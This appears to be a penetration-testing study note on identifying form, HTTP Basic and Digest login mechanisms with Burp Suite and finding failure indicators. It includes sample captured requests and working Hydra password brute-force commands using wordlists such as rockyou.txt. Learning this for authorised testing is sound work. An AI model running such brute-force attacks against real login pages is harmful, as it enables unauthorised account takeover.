


## Authentication Enumeration

> [!abstract]
>
> Before performing an authentication brute-force attack, identify **how the application authenticates users** and determine **how failed login attempts are indicated**. This information is required to correctly configure tools such as **Hydra**.

---

### Step 1 – Identify the Authentication Mechanism

Intercept the login request using **Burp Suite** and analyze the HTTP request responsible for authentication.

Common authentication methods:

- **Form-Based Authentication** (credentials submitted in the POST body)
- **HTTP Basic Authentication** (credentials sent in the `Authorization` header using Base64)
- **HTTP Digest Authentication** (challenge-response authentication using MD5)

Collect the following information:

- HTTP Method (`GET` / `POST`)
- Authentication Endpoint
- Username Parameter
- Password Parameter
- Authentication Headers (if applicable)



---

### Step 2 – Identify the Failed Login Response

Send several invalid authentication attempts using **Burp Repeater** and compare the server responses.

Analyze:

- HTTP Status Code
- Response Body
- Error Message
- Response Length
- Redirect Behavior

The objective is to determine a reliable **failure indicator** that can later be supplied to **Hydra**.



>[!tip] Form‑Based Authentication Example
>```http
>POST /login HTTP/1.1
>Host: target.com
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 29
>Origin: http://target.com
>Connection: close
>Referer: http://target.com/login
>Cookie: PHPSESSID=ab23cd45ef678901234567890abcdef
>
>username=admin&password=test123
>```

> [!example]- BruteForce Command
>```bash
>hydra -l admin -P passwords.txt target.com -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Invalid login"
>```
>```bash
>curl -X POST http://target.com/login -d "username=admin&password=P@ssWord123"
>```

>[!tip] HTTP Basic Authentication Example
>```http
>GET /basic HTTP/1.1
>Host: example.com
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:115.0) Gecko/20100101 Firefox/115.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Connection: close
>Upgrade-Insecure-Requests: 1
>Authorization: Basic dXNlcjpwYXNz
>```

> [!example]- BruteForce Command
>```bash
>hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt
>example.com http-get /basic/
>```
>```
>curl -u admin:P@ssWord123 example.com/basic/
>```

> [!tip] HTTP Digest Authentication Example
>```http
>GET /digest/ HTTP/1.1
>Host: example.com
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Connection: close
>Cookie: PHPSESSID=fks6f012miogmkr21loussglf5
>Upgrade-Insecure-Requests: 1
>Authorization: Digest username="test", realm="Private", nonce="p3bi8RoEBgA=fc270e510ca071228fd4f92d219a7acbc074b1e9", uri="/digest/", algorithm=MD5, response="a69b760a71bc89f76fe296c08137a567", qop=auth, nc=00000001, cnonce="5649e7b4a314ba0e"
>```

> [!Example]- BruteForce Command
>```bash
>hydra -l test -P /usr/share/wordlists/rockyou.txt example.com http-get /digest/ -t 16 -V -f
>```
>```bash
>curl --digest -u admin:adminpasswd example.com/digest/
>```
